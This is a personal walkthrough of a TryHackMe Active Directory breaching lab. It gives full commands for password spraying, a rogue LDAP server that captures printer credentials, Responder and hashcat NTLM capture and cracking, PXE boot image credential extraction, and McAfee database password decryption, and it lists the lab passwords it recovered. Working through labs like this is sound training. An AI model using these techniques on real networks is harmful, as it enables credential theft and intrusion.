 '''scope
THMDC - 10.200.25.101
THMMDT - 10.200.25.202

Webapp at http://ntlmauth.za.tryhackme.com/
Printer at http://printer.za.tryhackme.com/settings.aspx
PXE Boot files at http://pxeboot.za.tryhackme.com/
'''

## Exploitation:
- Added the DNS IP address of THMDC in `/etc/systemd/resolved.conf`
- Restarted the service
```bash
systemctl restart systemd-resolved
```

- If this didnt work revert the file `/etc/systemd/resolved.conf` to normal and add the IP in `/etc/resolv.conf` as nameserver
---------------------------------------------------------------------------------
- Found usernames given in task
- Used this to password spray the password `Changeme123` on the website in scope
```bash
python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
```

- Found 4 valid usernames
```
hollie.powell
heather.smith
gordon.stevens
georgina.edwards
```
---------------------------------------------------------------------------------
- The printer website in scope has open admin panel
- Asks for LDAP creds and server to change IP
- Added our IP address and clicked `Test Stttings`
- Started a `netcat` server on LDAP port
```bash
nc -lvnp 389
```

- The answer we recive contains a `supportedCapabilities` which means it needs more than authentication
- We can setup our rouge LDAP server for that
- Used `slapd` to configure a rouge LDAP server
```bash
## Added the DNS domain name and Organization name as `za.tryhackme.com`
sudo dpkg-reconfigure -p low slapd

## Start the service
sudo service slapd start
```

- Used this to capture credentials
```bash
sudo tcpdump -SX -i tun0 tcp port 389
```

- Sent the creds using printer admin panel to our IP as the server
- Got the error `LDAP Connection failed: The distinguished name contains invalid syntax.`
- But got the creds on `tcpdump`
```bash
za.tryhackme.com\svcLDAP:tryhackmeldappass1@
```
---------------------------------------------------------------------------------
- Used `responder` to intercept for NTLM connections
```bash
sudo responder -I tun0
```

- Got one for `svcFileCopy`
- Cracked the hash
```bash
hashcat -m 5600 NTLM.hash passwordlist.txt --force
```

- Got the password
	svcFileCopy:FPassword1!
---------------------------------------------------------------------------------
- Got the list of BCD files from http://pxeboot.za.tryhackme.com/
- We have SSH access in `THMJMP1.za.tryhackme.com` with password `Password1@`
```bash
ssh thm@THMJMP1.za.tryhackme.com
```

- Logged in
- Got the `powerpxe` tools from `github` and moved them here
- We need the THMMDT IP address
- Got it using
```bash
nslookup thmmdt.za.tryhackme.com
```

- Used this command in SSH session to get BCD files
```bash
tftp -i 10.200.25.202 GET "\Tmp\x64{1EADDB3F-F416-4CB5-9E3D-9F4886D52890}.bcd" conf.bcd
```

- Used these commands to get information using `powerpxe`
```bash
powershell
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
```

- Got the path of `wim` file
```
\Boot\x64\Images\LiteTouchPE_x64.wim  
```

- We can again use TFTP to get it
```bash
tftp -i 10.200.25.202 GET "\Boot\x64\Images\LiteTouchPE_x64.wim" pxeboot.wim
```

- Then we can use this to extract the credentials
```bash
Get-FindCredentials -WimFile pxeboot.wim
```

- Found them
```bash
>>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$ 
>>>> >>>> UserID = svcMDT                
>>>> >>>> UserDomain = ZA                
>>>> >>>> UserPassword = PXEBootSecure1@ 
```
---------------------------------------------------------------------------------
- Found a database file of McAfee Endpoint Security in `C:\ProgramData\McAfee\Agent\DB` as `ma.db`
- Used this command to send the file over to us using `scp`
```bash
scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .
```

- Used this to open it
```bash
sqlitebrowser ma.db
```

- Found a AD username and encrypted password in `AGENT_REPOSITORIES`
- Decrypted it using
```bash
python2 mcafee_sitelist_pwd_decrypt.py 'jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q=='
```

- Cracked it
	svcAV:MyStrongPassword!
---------------------------------------------------------------------------------